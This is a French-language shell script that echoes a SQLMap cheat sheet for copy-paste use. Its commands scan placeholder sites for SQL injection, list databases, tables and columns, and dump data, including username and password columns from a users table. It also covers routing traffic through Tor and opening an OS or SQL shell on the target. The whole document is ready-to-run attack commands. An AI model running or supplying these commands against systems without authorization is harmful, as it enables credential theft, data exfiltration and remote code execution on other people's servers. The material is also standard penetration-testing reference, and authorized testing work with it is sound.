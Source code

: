 

"## SQLMap Cheat Sheet pour Console"

 "\n### Commandes Automatiques"

echo -e "\n#### Scanner une URL de manière automatique"
echo "sqlmap -u \"http://siteatester.fr\""

echo -e "\n#### Scanner une URL avec un paramètre GET"
echo "sqlmap -u \"http://siteatester.fr?id=1\""

echo -e "\n#### Scanner une URL avec des paramètres POST"
echo "sqlmap -u \"http://siteatester.fr\" --data=\"PARAMETRE1=VALEUR1&PARAMETRE2=VALEUR2\""

echo -e "\n### Préciser les Paramètres"

echo -e "\n#### Préciser le paramètre sur lequel réaliser l’injection"
echo "sqlmap -u \"http://siteatester.fr?param1=valueur1&param2=valueur2\" -p param1"

echo -e "\n#### Préciser le type de base de données (mysql)"
echo "sqlmap -u \"http://siteatester.fr\" --dbms=mysql"

echo -e "\n### Listage"

echo -e "\n#### Lister les bases de données"
echo "sqlmap -u \"http://siteatester.fr?id=1\" --dbs"

echo -e "\n#### Lister les tables d’une base spécifique"
echo "sqlmap -u \"http://siteatester.fr\" -D \"nom_de_la_database\" --tables"

echo -e "\n#### Lister les colonnes d’une table spécifique"
echo "sqlmap -u \"http://siteatester.fr\" -D \"nom_de_la_database\" -T \"nom_de_la_table\" --columns"

echo -e "\n### Dump"

echo -e "\n#### Dump tout ce qu’SQLMap trouve"
echo "sqlmap -u \"http://siteatester.fr\" --dump"

echo -e "\n#### Dump une base de données spécifique"
echo "sqlmap -u \"http://siteatester.fr\" -D \"nom_de_la_database\" --dump"

echo -e "\n#### Dump une table spécifique"
echo "sqlmap -u \"http://siteatester.fr\" -D \"nom_de_la_database\" -T \"nom_de_la_table\" --dump"

echo -e "\n#### Dump seulement des colonnes spécifiques d’une table"
echo "sqlmap -u \"http://testsite.com/login.php\" -D site_db -T users -C username,password --dump"

echo -e "\n### Cookies"

echo -e "\n#### Utiliser des cookies dans la requête"
echo "sqlmap -u \"http://siteatester.fr\" --cookie=\"COOKIE1=VALEUR1;COOKIE2=VALEUR2\""

echo -e "\n### Proxy"

echo -e "\n#### Passer le trafic de SQLMap via un proxy"
echo "sqlmap -u \"http://siteatester.fr\" --proxy=http://proxy:port"

echo -e "\n#### Passer le trafic de SQLMap via Tor"
echo "sqlmap -u \"http://siteatester.fr\" --tor --tor-type=SOCKS5 --check-tor"

echo -e "\n### Reverse Shell"

echo -e "\n#### Obtenir un reverse shell OS"
echo "sqlmap -u \"http://siteatester.fr\" --os-shell"

echo -e "\n#### Obtenir un shell SQL"
echo "sqlmap -u \"http://siteatester.fr\" --sql-shell"

echo -e "\n### Autres Commandes Utiles"
# Ici vous pouvez continuer avec les autres commandes utiles que vous souhaitez ajouter

# Notez que cette approche simplifie la copie et le collage des commandes directement depuis la console.
